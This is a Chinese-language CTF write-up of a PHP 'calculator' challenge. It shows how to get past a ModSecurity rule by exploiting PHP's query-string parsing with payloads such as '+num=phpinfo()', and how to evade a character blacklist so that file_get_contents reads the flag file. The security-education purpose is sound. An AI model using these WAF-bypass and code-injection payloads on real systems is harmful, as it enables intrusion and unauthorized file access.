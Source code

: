 # 简单的计算器

![1565768559842](.\1565768559842.png)

主要考点：php字符串解析函数绕过modsecurity

https://www.secjuice.com/abusing-php-query-string-parser-bypass-ids-ips-waf/

文章中介绍的是xxx_xxx类型参数，fuzz后可发现任意参数都存在解析问题

``` 
# php parse_test.php
{chr}foobar -> 20 ( )
{chr}foobar -> 26 (&)
{chr}foobar -> 2b (+)

foobar{chr} -> 00 ( )
foobar{chr} -> 26 (&)
foobar{chr} -> 3d (=)
```

利用fuzz出的字符进行测试，可发现只存在于参数首部，所以可以利用%20或者‘+’进行waf绕过，modsecurity规则：

``` 
SecRule ARGS:num "@rx ^[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*" "id:001,msg:'Hack',severity:ERROR,deny,status:403"
```

测试payload：+num=phpinfo()

![1565768741559](.\1565768741559.png)



第二层主要就是常规的函数字符绕过

设置了disable_function

``` 
passthru,exec,system,chroot,chgrp,chown,shell_exec,proc_open,proc_get_status,popen,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,stream_socket_server,chdir,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,putenv,opendir,imap_open,mail,imap_mail,ini_set,apache_setenv,link,
```

留了file_get_contents()，所以利用该函数去读flag，源码中也存在过滤。

``` 
$blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','$'.'\\'];
	foreach ($blacklist as $blackitem) {
		if (preg_match('/' . $blackitem . '/m', $str)) {
			die("what are you want to do?");
		}
	}
```

过滤了单引号和双引号，可以利用hexdec和bin2hex来进行转换，用scandir来查询目录

``` 
hexdec(bin2hex('/')); -> 47
```



![1565769712443](.\1565769712443.png)

``` 
hexdec(bin2hex('/f1agg')); -> 52115961636711
```

所以阔以构造payload：

``` 
?+num=file_get_contents(hex2bin(dechex(52115961636711)))
```

来读flag（这里顺便收集一波姿势）

![1565769875362](.\1565769875362.png)



